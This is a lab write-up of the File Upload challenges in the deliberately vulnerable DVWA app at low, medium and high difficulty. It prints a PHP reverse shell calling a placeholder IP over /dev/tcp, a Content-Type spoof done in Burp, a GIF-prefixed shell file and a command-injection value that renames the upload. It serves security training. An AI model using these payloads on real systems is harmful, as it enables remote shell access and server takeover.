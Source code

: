 # Difficulty - Low

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Sources/low.php)

In this challange we can upload a file and view it.
There are no filters so we'll upload a tiny php reverse shell ([source code](https://gist.github.com/rshipp/eee36684db07d234c1cc)) :

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.X.X.X/1234 0>&1'"); # 10.X.X.X is my IP and I'm listening on 1234 port
?>
```

We upload this file with `.php` extension and we can execute it from `/hackable/uploads/` like here (my file is `reverse_shell.php`):
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Pictures/1.png)

We listen on the 1234 port and we got our shell:

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Pictures/2.png)



# Difficulty - Medium

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Sources/medium.php)


This time our there are some filters: `$uploaded_type == "image/jpeg" || $uploaded_type == "image/png"`
So, this is what I did.

I created a copy of the previous file just to make sure that I access the right file:

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Pictures/3.png)

I started my Burp Suite Proxy and I uploaded `reverse_shell2.php`. I intercepted the request and changed
`Content-Type: application/x-php`
to 
`Content-Type: image/png`

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Pictures/4.png)

And the file was accepted:
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Pictures/5.png)

Now we can access the `reverse_shell2.php` from `/hackable/uploads/` and we have the shell.



# Difficulty - High

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Sources/high.php)


I found this [suggestion](https://jayinfosec.gitbook.io/penetration-testing-playbook/web-applications/file-upload-vulnerabilities/bypass-file-upload-restrictions#file-extension).
So I created a new file:
```php
GIF98
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.X.X.X/1234 0>&1'");
?>
```
and saved with name `file.png`

I uploaded it.
After that I took advanced of the `File Inclusion` challange.
I search for my file `file.png` like :
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Pictures/6.png)

I found where is my file located so I changed its name ping-ing this `0.0.0.0 || mv  /var/www/html/hackable/uploads/file.png  /var/www/html/hackable/uploads/file.php`.

The file is now changed and accessible; we can run it and we got the shell. 



# Difficulty - Impossible

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Upload/Sources/impossible.php)
